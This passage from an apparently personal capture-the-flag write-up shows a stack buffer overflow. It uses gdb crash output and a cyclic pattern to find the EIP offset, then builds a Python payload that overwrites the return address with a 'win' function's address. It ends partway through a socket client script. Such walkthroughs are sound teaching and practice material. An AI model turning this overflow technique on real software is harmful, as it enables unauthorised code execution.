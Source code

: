 ```
0028| 0xffffcf9c ("c5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35624134 in ?? ()
```
#gdb 

This tells us the *EIP* being written is:
```
EIP: 0x35624134 ('4Ab5')
```
#gdb 

Then back on [zerosum0x0](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html):
![[031_buffer_overflow_1.png]]

And that's our length.
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab
```

And I want to pass here the address of the *win* function which is little-endian
```
0x080491f6

f6 91 04 08

\xf6 \x91 \x04 \x08
```

And I then write a *python* script to output these.
```python
#!/usr/bin/env python
import sys

payload = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08'

sys.stdout.buffer.write(payload)
```
#python 

And piping this into *xxd* we can see our bytes.
```bash
python payload.py | xxd
```
#python #xxd

```
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab
00000020: 3041 6231 4162 3241 6233 4162 f691 0408  0Ab1Ab2Ab3Ab....
```

Now let's connect to the server.
```python
#!/usr/bin/env python

import socket
import argparse
import struct

parser = argparse.ArgumentParser()
parser.add_argument("host", type=str, help="The hostname or IP address to connect to")
parser.add_argument("port", type=int, help="The port for the service to connect to")

args = parser.parse_args()

```